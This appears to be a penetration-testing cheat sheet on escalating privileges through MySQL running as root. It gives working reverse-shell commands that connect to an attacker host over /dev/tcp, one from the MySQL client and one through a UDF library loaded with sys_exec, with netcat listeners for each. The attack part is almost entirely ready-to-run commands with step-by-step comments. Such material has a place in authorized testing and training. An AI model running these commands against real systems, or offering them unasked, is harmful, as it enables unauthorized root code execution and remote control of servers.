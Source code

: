 Example 2

Victim
```
ps aux | grep root

mysql -u root -p

\! bash -i >& /dev/tcp/10.10.10.10/9999 0>&1
```
Attacker

```
nc -lvnp 9999
id && whoami
```

# MySQL UDF (User-Defined Functions) Code (UDF) Injectionn

User Defined Function (UDF) is a piece of code that extends the functionality of a MySQL server by adding a new function that behaves just like a native (built-in) MySQL function, such as abs() or concat()
UDFs are useful when you need to extend the functionality of your MySQL server
For penetration testing, we can include a UDF inside our database that loads a library that has the ability to execute commands via the sys_exec() function which gives us code execution

Example 1 - Reverse Shell 

Download UDF (Linux - 64 Bit) = https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/mysql/linux/64
Download UDF (Linux - 32 Bit) = https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/mysql/linux/32

Victim
```
ps aux | grep root                        //  Verify that MySQL is running as root
Save the UDF in the /tmp folder ( Example: /tmp/lib_mysqludf_sys.so)
mysql -u root -p

mysql> use mysql;
mysql> create table admin(line blob);
mysql> insert into admin values(load_file('/tmp/lib_mysqludf_sys.so'));
mysql> select * from admin into dumpfile '/usr/lib/lib_mysqludf_sys.so';
mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
mysql> select sys_exec('bash -i >& /dev/tcp/10.10.10.10/9999 0>&1');

// Any UDF library can be used , as long as it is exploitable via the sys_exec() function
// The "admin" table name can be named anything
// Ensure that the path to the UDF (.so) is correct
// Replace IP & Port
```
Attacker
```
nc -lvnp 9999
```
